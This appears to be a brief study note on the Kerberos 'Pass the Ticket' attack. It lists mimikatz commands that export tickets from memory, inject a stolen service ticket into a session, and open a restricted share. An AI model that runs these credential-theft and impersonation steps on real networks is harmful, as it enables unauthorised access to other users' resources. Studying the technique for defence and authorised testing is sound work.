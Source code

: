 # Pass the Ticket

The _Pass the Ticket_ attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required.

1. confirm current user has no access to a restricted folder
2. use mimikatz to export all the TGT/TGS from memory

```
privilege::debug
sekurlsa::tickets /export
```

3. verify newly generated tickets

```
dir *.kirbi
```

4. pick a TGS ticket and inject it through mimikatz

```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

5. veryify the ticket is in our session

```
klist
```

6. access the restricted folder

```
ls \\web04\backup
```
